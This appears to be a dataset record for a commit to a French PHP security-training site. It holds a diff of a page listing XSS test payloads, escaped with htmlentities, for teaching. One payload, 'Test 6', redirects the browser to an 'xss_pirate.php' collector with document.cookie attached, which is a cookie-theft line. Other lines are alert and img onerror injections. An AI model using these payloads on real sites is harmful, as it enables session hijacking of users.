

Before and after one commit to CogitiumAcademy/next2024-security, a PHP site: page /formation/xss.php in a window 1280 px wide. Shown: the part 483-710 px from the top of the page, without its empty margins (0-1070 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Modif url xss

```diff
--- a/xss/xss.php
+++ b/xss/xss.php
@@ -50,7 +50,7 @@
         <p>Test 3 : <?= htmlentities('<script>alert("Coucou la faille XSS ?");</script>') ?></p>
         <p>Test 4 : <?= htmlentities('<script>alert("Cookies = " + document.cookie);</script>') ?></p>
         <p>Test 5 : <?= htmlentities('<script>console.log("Cookies = " + document.cookie);</script>') ?></p>
-        <p>Test 6 : <?= htmlentities('<script>window.location.replace("http://localhost/formation/afpa/security_php/xss/xss_pirate.php?cookies=" + document.cookie);</script>') ?></p>
+        <p>Test 6 : <?= htmlentities('<script>window.location.replace("http://localhost/formation/next2024/next2024-security/xss/xss_pirate.php?cookies=" + document.cookie);</script>') ?></p>
         <p>Test 7 : <?= htmlentities('<img src="aaaaa" onerror="alert(\'Idem sans balise script\');">') ?></p>
 
 
```
